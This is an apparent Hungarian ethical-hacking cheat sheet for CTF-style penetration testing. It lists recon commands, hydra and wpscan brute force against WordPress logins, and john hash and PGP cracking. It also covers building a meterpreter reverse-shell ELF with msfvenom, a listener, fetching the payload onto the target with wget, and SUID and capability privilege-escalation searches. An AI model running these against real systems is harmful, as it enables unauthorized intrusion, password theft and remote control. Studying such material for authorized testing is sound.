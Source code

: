 # Etikus hackelés cheat-sheet

## Alapvető paracsok:

- `ping $RHOST`
- `sudo nmap -sS -sV (-O -sC) $RHOST` esetleg, ha ismerjük (-p PORT)
- `gobuster dir -u http://$RHOST -w /usr/share/wordlists/dirb/common.txt -x php,sh,txt,cgi,html,js,css,py` vagy `/usr/share/wordlists/dirb/big.txt`
  Gobuster helyett lehet dirb-t is használni: `dirb http://$RHOST {megfelelő szólista} (-r)`, ahol a -r kikapcsolja a rekurzív keresést

## Wordpress esetén:

- `hydra -L {filename} -p test $RHOST http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" -t 30`
- `wpscan --url http://$RHOST --enumerate u` (regisztrált felhasználók)
- `wpscan --url http://$RHOST --usernames {username} --passwords {filename}` -(itt lehet használni pl.: usr/share/wordlists/rockyou.txt)
- Ha kapunk egy hash-t:
- Hash típusának meghatározása: `hash-identifier`
- Hash feltörése: `john {filename} --format={az előbb meghatározott típus, pl.: raw-md5} --wordlist=/usr/share/wordlists/rockyou.txt`

## Netcat listener készítése:

- `nc -lvnp 5555` (5555=PORT, ez lehet más is)

## Msfconsole multi/handler:

- `set payload linux/x64/meterpreter_reverse_tcp`
- `set lhost $LHOST`
- `set rhost $RHOST`
- `set lport 5555`
- `run`

#### Ha kaptunk meterpreter shell-t, akkor egyszerűen az `upload` és `download` parancsokat használhatjuk

## Interaktív shell készítése:

- Ha van python a célgépen: `python -c "import pty; pty.spawn('/bin/bash')"`, de más eszközök is rendelkezésre állnak a gépen elérhető programok függvényében pl.: `perl`. Ha találunk valami ilyesmit, akkor érdemes lecsekkolni a [gtfobins](https://gtfobins.github.io/#python)-en.

## SUID bitek keresése:

- `find / -perm /u=s 2>/dev/null`

## Shell kódok készítése msfvenommal:

- `msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=$LHOST RHOST=$RHOST LPORT=5555 -f elf > revshell.elf`
- Ha pl. windowsos célgépet támadunk akkor az .elf kiterjesztés helyett a .exe kiterjesztést használjuk.

## SSH alapok:

- Eszközhöz való csatlakozás: `ssh -p PORT username@$RHOST`
- Eszközhöz való csatlakozás privát kulcs használatával: `ssh -p PORT -i {privát kulcs} username@$RHOST`, viszont ekkor a privát kulcs publikus párjána szerepelnie kell a felhasználó `~/.ssh/authorized keys` fájljában.

## Privát kulcs készítése:

- `openssl genpkey –algorithm RSA -pkeyopt rsa_keygen_bits:2048 > privat.pem` vagy `ssh-keygen -t rsa -b 2048`

## Publikus kulcs készítése privátból:

- `ssh-keygen -f privat.pem -y > publikus.pub`

## Python szerver:

- `python3 -m http.server`
- Letöltés a szerverről: `wget http://$RHOST:8000/revshell.elf`

## A sudo parancs:

- `sudo -l`
- Futtatás más felhasználó nevében (pl.: SUID bitünk van): `sudo -u username ...parancsok`

## Szkriptelés:

- Szkriptek elejére: `#!/bin/zsh` vagy `#!/bin/bash`
- Hasznos oldal lehet még a [pentestmonkey](https://pentestmonkey.net/category/cheat-sheet) is

## PGP fájl esetén:

- `gpg2john filenév.asc > hová`
- `john --format=gpg filenév --wordlist=/usr/share/wordlists/rockyou.txt`
- `gpg --import filenév.asc` (Itt megadjuk az előbb kinyert jelszót)
- `gpg --decrypt filenév.pgp`

## Egy bizonyos rendszer sérülékenységeinek keresése:

- [exploit-db](https://www.exploit-db.com/)

## Linux capabilities:

- `getcap -r / 2>/dev/null`
